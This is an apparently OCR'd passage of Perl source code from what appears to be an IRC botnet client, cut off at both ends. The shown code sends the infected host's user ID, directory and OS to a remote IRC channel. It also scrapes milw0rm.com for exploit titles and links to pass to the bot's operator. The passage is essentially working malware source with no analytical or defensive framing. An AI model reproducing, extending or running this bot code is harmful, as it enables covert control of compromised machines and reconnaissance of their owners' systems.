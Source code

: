             sendraw($IRC_cur_socket, "PRIVMSG $printl :4|12.:4System Info12:.4| 12ID           : 7 $id"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4|12.:4System Info12:.4| 12Own Dir      : 7 $ownd"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4|12.:4System Info12:.4| 12OS           : 7 $distro"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4|12.:4System Info12:.4| 12Owner        : 7 fuck"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4|12.:4System Info12:.4| 12Channel      : 7 #berau"); 

         } 

  

         if ($funcarg =~ /^milw0rm/) { 

            my @ltt=(); 

            my @bug=(); 

            my $x; 

            my $page=""; 

            my $socke = IO::Socket::INET->new(PeerAddr=>"milw0rm.com",PeerPort=>"80",Proto=>"tcp") or return; 

            print $socke "GET http://milw0rm.com/rss.php HTTP/1.0\r\nHost: milw0rm.com\r\nAccept: */*\r\nUser-Agent: Mozilla/5.0\r\n\r\n"; 

            my @r = <$socke>; 

            $page="@r"; 

            close($socke); 

            while ($page =~  m/<title>(.*)</g){ 

               $x = $1; 

               if ($x =~ /\&lt\;/) { 

                  $x =~ s/\&lt\;/</g; 

               }          

               if ($x !~ /milw0rm/) { 

                  push (@bug,$x); 

               } 

            } 

            while ($page =~  m/<link.*expl.*([0-9]...)</g) { 

               if ($1 !~ m/milw0rm.com|exploits|en/){ 

                  push (@ltt,"http://www.milw0rm.com/exploits/$1 "); 

               } 
